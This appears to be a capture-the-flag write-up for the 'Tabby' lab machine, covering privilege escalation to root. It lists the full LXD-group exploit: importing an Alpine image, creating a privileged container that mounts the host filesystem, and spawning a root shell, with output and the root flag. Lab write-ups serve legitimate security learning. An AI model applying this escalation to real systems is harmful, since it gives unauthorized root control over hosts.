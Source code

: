## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that user ash is part of lxd group:
```
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
OS: Linux version 5.4.0-31-generic (buildd@lgw01-amd64-059) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020
User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
Hostname: tabby
```
As we did for [shocker](Shocker.md) we know that we can leverage this group to create a linux container and mount the rootfs. Ounce the machine is booted and the rootfs is mounted we will be able to write any file on the box and even drop an ssh key for root.  
LXD is Ubuntu’s system container manager. This is similar to virtual machines, but using lightweight linux containers.  
The lxd group should be considered harmful in the same way the docker group is.  
Any member of the lxd group can immediately escalate their privileges to root on the host operating system.
To Exploit this vulnerability, first of all we need to run the following commands on our local machine:
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
bash build-alpine
```
After we run this command we can transfer the ```alpine-v3.15-x86_64-20220422_1026.tar.gz``` image to the remote server, and run the following command.
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
```
We do not get any ```error: mkdir /.config: permission denied``` as did happened for [shocker](Shocker.md), hence we can proceed with the exploit.  
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
lxc image list # verify that the image is loaded
lxc init alpine alpine-container -c security.privileged=true
lxc config device add alpine-container alpine-device disk source=/ path=/mnt/root recursive=true
```
finally, we can start the container and run a bash shell:
```
lxc start alpine-container
lxc exec alpine-container /bin/sh
```
However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container.  
So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.
```
ash@tabby:/dev/shm$ lxc exec alpine-container /bin/sh                                                            
~ # id                                                     
uid=0(root) gid=0(root)   
~ # cat /mnt/root/root/root.txt
309d17dcbfbe5ee7dba81f0079b10982
```
